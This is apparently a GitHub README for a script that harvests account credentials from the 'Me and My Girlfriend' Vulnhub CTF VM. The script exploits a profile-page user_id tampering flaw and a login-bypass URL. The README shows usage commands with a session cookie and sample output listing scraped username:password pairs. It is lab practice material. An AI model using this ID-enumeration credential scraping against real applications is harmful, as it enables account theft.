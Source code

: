 # MeAndMyGirl-CTF-Creds-Harvester
A not so robust script for harvesting the credentials of the Me and My Girlfriend CTF's web app accounts. The script achieves this by exploiting the parameter tampering privilege escalation flaw at `http://x.x.x.x/index.php?page=profile&user_id=x`.

# Usage
## Obtain authenticated session cookie
- **Option 1:** Register an account, then login and copy the session cookie's value from your network tab of the developer tools.
- **Option 2:** Navigate to `http://x.x.x.x/misc/process.php?act=login` the app will bypass login, then copy the session cookie's value from your network tab of the developer tools.

## Run scrape.py
```
python3 scrape.py 192.168.56.123 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
python3 scrape.py 192.168.56.123:8080 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 5
```
**Note:** The first argument to the script should be the address of the VM.

## Example
```
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Me_and_My_Girlfriend]
└─$ ./stealer.py 192.168.56.121 -sessid r4irnlb966u3b7a6sv0iupc1m4 -suid 1 -euid 7
[i] Requests:
http://192.168.56.121/index.php?page=profile&user_id=1 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=2 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=3 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=4 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=5 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=6 [ SUCC, Status: 200 ]
http://192.168.56.121/index.php?page=profile&user_id=7 [ SUCC, Status: 200 ]
[i] Scraped 5 credentials
eweuhtandingan:skuyatuh
aingmaung:qwerty!!!
sundatea:indONEsia
sedihaingmah:cedihhihihi
alice:4lic3
[*] Done!
```
